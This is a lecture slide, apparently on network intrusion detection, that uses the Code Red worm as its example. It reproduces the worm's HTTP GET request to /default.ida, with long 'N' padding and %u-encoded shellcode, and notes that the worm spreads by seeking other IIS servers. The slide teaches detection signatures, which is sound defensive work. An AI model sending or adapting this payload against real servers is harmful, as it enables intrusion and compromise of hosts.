

# An Example for NIDS (Code Red Worm)
GET /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNN NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN NNNNNNNNNNNNNNNNNNN %u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801 %u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3 %u0003%u8b00%u531b%u53ff%u0078%u0000%u00=a HTTP/1.0
Trying to spread itself by looking for more IIS servers on the Internet.